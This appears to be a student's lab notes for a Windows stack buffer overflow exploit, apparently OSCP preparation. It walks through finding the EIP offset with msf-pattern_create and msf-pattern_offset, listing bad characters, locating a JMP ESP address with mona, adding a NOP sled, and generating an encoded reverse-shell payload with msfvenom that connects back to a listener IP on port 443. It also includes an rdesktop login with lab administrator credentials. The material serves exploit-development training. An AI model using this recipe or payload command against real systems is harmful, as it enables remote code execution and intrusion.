 rdesktop 192.168.143.10 -u administrator -p lab -g 1720x980 -x 0x80

- After finding the fuzzing bytes divide it to less 560 and put 560 unique pattern like below
- Kali# locate pattern_create
- root@kali:# msf-pattern_create -l 560

- Now place that in total = initial + rest 
- Check the EIP value and put in below

- root@kali# msf-pattern_offset -l 560 -q 41366A41

- take the location point and use to find the exact location of EIP and ESP

- Bad characters
```
badchars = (
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

-keep the bad chars for later use and go and write  
- !mona modules
- find address for JUMP ESP as see for false for rebase,SafeSEH,ASLR,NXCompat and osdll disabled.
- if not above check for rebase,SafSeh,ASLR,NXCompat false let forget osdll
- !mona find -s "\xff\xe4" -m "dll/app"

- Remember to put NOPS 
-   nops = "\x90" * 10

- and Generate shellcode reverse shell
- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.143 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00"

https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice

https://github.com/Arken2/Everything-OSCP/blob/master/WindowsBufferOverflowChecklist.pdf

